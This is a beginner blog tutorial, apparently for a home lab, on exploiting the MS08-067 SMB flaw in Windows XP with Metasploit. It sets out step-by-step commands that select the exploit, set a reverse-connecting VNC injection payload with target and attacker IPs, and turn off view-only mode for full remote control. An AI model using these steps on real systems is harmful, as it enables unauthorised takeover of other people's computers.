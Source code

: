 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnurability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise you would be commiting an illegal act.

Now that we have sucessfully obtained a list of all the vulnurabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnurabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP</b>

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controlls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnurabilities & Exploit Database][Rapid7-DB]

Type in the vulnurability code we want to use. In our particular case, it is MS08_067

In the dropdown menue to the right of the search field, choose "Metasploit Moduels"

Look under "Moduel Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

Open terminal and type in the following command



{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basicly software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD /windows/vncinject/reverse_tcp
{% endhighlight %}

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below

IMAGE OF SHOW OPTIONS

You may notice that a fiew of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

IMMAGE OF IFCONFIG

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to controll the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Now run show options again and you should have something like this.

IMAGE OF SHOW OPTIONS

Congradulations. You did it! You can now do whatever you like to the target computer.


[Rapid7-DB]: https://www.rapid7.com/db


